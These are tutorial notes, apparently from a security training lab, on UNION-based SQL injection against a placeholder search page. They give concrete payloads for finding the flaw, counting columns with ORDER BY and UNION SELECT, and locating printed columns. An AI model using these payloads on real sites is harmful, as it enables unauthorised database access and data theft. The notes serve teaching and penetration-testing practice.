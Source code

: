 This method of `UNION`-based injection enables an attacker to dump sensitive data across tables/databases in a single manipulated query.
# Union Injection

Now that we know how the UNION clause works and how to use it, let us learn how to utilize it in SQL injection.

Example target:

```
http://SERVER_IP:PORT/search.php?port_code=cn
```

This page accepts user input via a search field and displays results in a table (Port Code, Port City, Port Volume).
#### SQLi Discovery

Injecting a single quote (`'`) causes an error:

```
You have an error in your SQL syntax...
```

This indicates that the page may be vulnerable to SQL injection.
### Detecting Number of Columns

To craft a working UNION-based injection, we must first determine how many columns the original query returns. Two methods:
#### Method 1: ORDER BY

Increment column index in ORDER BY until error occurs:

- `' ORDER BY 1-- -` → Success    
- `' ORDER BY 2-- -` → Success
- `' ORDER BY 3-- -` → Success    
- `' ORDER BY 4-- -` → Success    
- `' ORDER BY 5-- -` → Error    

**Conclusion: The query has 4 columns.**

#### Method 2: UNION SELECT

Inject UNION statements with increasing column counts:

- `cn' UNION SELECT 1,2,3-- -` → Error
- `cn' UNION SELECT 1,2,3,4-- -` → Success

**Conclusion: The query has 4 columns.**
### Determining Printed Columns

Use numeric values to identify which columns are printed on the page:

```
cn' UNION SELECT 1,2,3,4-- -
```

